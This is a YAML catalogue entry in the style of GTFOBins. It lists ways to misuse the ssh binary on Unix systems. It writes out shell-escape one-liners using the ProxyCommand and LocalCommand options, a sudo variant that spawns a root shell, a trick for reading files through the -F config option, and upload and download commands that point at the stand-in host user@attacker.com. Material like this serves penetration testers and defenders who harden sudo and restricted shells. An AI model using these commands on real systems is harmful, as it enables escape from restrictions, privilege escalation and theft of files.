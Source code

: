 ```yaml
---
functions:
  shell:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    - description: Spawn interactive shell on client - requires successful connection.
      code: ssh -oPermitLocalCommand=yes -oLocalCommand=bash x
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
---
```

